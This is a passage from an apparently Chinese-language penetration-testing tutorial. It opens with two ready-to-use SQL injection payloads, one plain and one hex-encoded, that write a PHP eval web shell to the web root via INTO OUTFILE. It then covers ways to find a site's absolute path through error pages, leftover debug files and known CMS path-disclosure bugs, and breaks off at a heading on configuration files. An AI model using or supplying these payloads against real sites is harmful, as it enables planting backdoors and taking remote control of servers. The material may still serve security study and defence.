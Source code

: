 



写一句话木马

```
# 1. 直接写
?id=1' and 1=2 union select 1,'<?=@eval($_REQUEST[404])?>',3 into outfile 'c:/phpstudy/www/hack1.php' --+

# 2. 改写成16进制
?id=1' and 1=2 union select 1,0x3c3f3d406576616c28245f524551554553545b3430345d293f3e,3 into outfile 'c:/phpstudy/www/hack1.php' --+

```



------



## 获取网站路径常见方式

### 报错显示

**一般网站出现错误的时候他会泄露出路径**![在这里插入图片描述](https://img-blog.csdnimg.cn/81396813197d476a9daf49d70d4aebb2.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627618086104-ba552c00-cb50-4079-a4af-65d8eb2fb2b4.png?x-oss-process=image%2Fresize%2Cw_1115%2Climit_0)

### 遗留文件

**站长为了调试信息的时候遗留的文件而泄露的路径，用扫描工具可以扫出**

![在这里插入图片描述](https://img-blog.csdnimg.cn/71a656e3502842de99288ae7eed2ad0d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAbGFpbndpdGg=,size_20,color_FFFFFF,t_70,g_se,x_16)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627634449104-71a3c193-9745-4c4a-873c-004660654aa6.png?x-oss-process=image%2Fresize%2Cw_912%2Climit_0)







### 漏洞报错

**知道对方是用什么程序搭建再去网上搜漏洞信息**：phpcms  爆路径

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627634644156-a862b3b2-ef69-4336-b611-1762358aa0d2.png?x-oss-process=image%2Fresize%2Cw_890%2Climit_0)









### 平台配置文件
